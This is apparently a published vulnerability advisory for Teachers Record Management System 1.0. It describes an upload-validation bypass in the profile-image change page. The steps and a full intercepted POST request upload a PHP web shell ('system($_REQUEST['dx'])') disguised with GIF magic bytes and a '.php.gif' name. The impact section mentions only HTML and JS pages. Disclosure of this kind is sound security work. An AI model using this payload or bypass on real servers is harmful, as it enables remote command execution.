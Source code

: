```
Exploit Title: Teachers Record Management System 1.0 – File Upload Type Validation Error in /changeimage
Date: 17-01-2023
Vendor Homepage: https://phpgurukul.com
Software Link: https://phpgurukul.com/teachers-record-management-system-using-php-and-mysql/
Version: 1.0
Tested on: Windows 11 + XAMPP 
```

<h2>DESCRIPTION</h2>
The upload functionality of updating user profile does not properly validate the file content-type, 
filename, allowing any authenticated user to bypass this security check by adding a valid signature (p.e. GIF89) 
and sending any invalid content-type. This could allow an authenticated attacker to upload HTML files with JS content 
that will be executed in the context of the domain.

<h2>STEPS-TO-REPRODUCE</h2>

1. Login into Teacher-Account with the credentials “**Username:** jogoe12@yourdomain.com”
**Password: Test@123**”

2. Navigate to Profile Section and edit the Profile Pic by clicking on **Edit Image**
3. Open the Burp-suite and Intercept the  Edit Image Request 
4. In POST Request Change the “ **Filename** “ from “ **profile picture.png** “  to  “**profile picture.php.gif** ” 
5. Change the **Content-type from “ image/png “ to “ image/jpg “**
6. And Add this **Payload** : GIF89a <?php echo system($_REQUEST['dx']); ?> 
7. Where **GIF89a is the GIF magic bytes this bypass the file upload extension**
8. Below is the Burpsuite-POST Request for all the changes that I have made above

<h2>PROOF-OF-CONCEPT</h2>
The following request was modified to allow uploading php file using a valid GIF signature, but can be modified to upload any kind of content-type:

```
POST /trms/teacher/changeimage.php HTTP/1.1
Host: localhost
Content-Length: 442
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryndAPYa0GGOxSUHdF
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/trms/teacher/changeimage.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=8alf0rbfjmhm3ddra7si0cv7qc
Connection: close

------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="subjects"

John Doe
------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="newpic"; filename="profile picture.php.gif"
Content-Type: image/gif

GIF89a <?php echo system($_REQUEST['dx']); ?>

------WebKitFormBoundaryndAPYa0GGOxSUHdF
Content-Disposition: form-data; name="submit"


------WebKitFormBoundaryndAPYa0GGOxSUHdF--
```
![Teacher-management-poc-file-upload-1](https://user-images.githubusercontent.com/98345027/212889242-0b6bf2d9-d68e-428d-a2ea-c53418b6fa70.png)


<h2>IMPACT</h2>
This could allow an attacker to write custom pages ,Those pages can contain phishing html 
or even JS code that will be executed in the context of the active user browser.


